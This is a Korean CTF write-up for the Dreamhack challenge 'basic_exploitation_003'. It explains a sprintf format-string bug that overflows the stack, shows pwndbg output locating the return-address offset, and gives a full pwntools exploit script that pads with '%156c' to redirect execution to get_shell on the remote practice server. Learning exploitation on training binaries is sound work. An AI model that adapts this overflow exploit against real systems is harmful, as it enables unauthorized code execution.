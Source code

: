 코드에서 힙에 사용자가 입력한 데이터를 입력받은 후 다시 스택에 데이터를 입력받는 형태임
그런데 힙에서 스택으로 이동할 때 sprintf로 출력하게 되는데, 
사용자가 자유롭게 포멧스트링을 넣을 수 있고, partial RELRO이므로 SFP 취약점이 발생

이전에 포멧스트링 관련 취약점을 이용할 때, %hn등으로 나눠서 공격하는 경우가 많았는데,
여기서는  %n과 같은 입력 관련 포맷스트링을 이용하는 것이 아닌, 단순히 오프셋만큼 쓰레기 값을 넣어주는 역할을 하기 위해 포맷스트링을 사용하는 것뿐임

---

따라서 리턴까지의 오프셋만 알아내기만 하면 됨(0xdc)
```sh
pwndbg> telescope 80
00:0000│ esp 0xffffcf48 —▸ 0xffffcf50 ◂— 'aaaaaaaa\n'
01:0004│-09c 0xffffcf4c —▸ 0x804b1a0 ◂— 'aaaaaaaa\n'
02:0008│-098 0xffffcf50 ◂— 'aaaaaaaa\n'
03:000c│-094 0xffffcf54 ◂— 'aaaa\n'
04:0010│-090 0xffffcf58 ◂— 0xa /* '\n' */
05:0014│-08c 0xffffcf5c ◂— 0x0
... ↓        32 skipped
26:0098│ edi 0xffffcfe0 —▸ 0x804b1a0 ◂— 'aaaaaaaa\n'
27:009c│-004 0xffffcfe4 —▸ 0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
28:00a0│ ebp 0xffffcfe8 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
29:00a4│+004 0xffffcfec —▸ 0xf7c21519 (__libc_start_call_main+121) ◂— add esp, 0x10
2a:00a8│+008 0xffffcff0 ◂— 0x1
...
```

---

# exploit
```python
from pwn import *

p=remote("host3.dreamhack.games",23842)
#p=process("./basic_exploitation_003")
#p=gdb.debug("./basic_exploitation_003")
e=ELF("./basic_exploitation_003")
#context.log_level='DEBUG'

get_shell=e.symbols["get_shell"] #0x080491a6

payload=b''
payload+=b'%156c'
payload+=p32(get_shell)

p.send(payload)

p.interactive()
```

---
# 결과
```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/basic_exploitation_003]
└─$ python3 exploit.py 
[+] Opening connection to host3.dreamhack.games on port 23842: Done
[*] '/home/foo1/Desktop/Dreamhack/basic_exploitation_003/basic_exploitation_003'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
```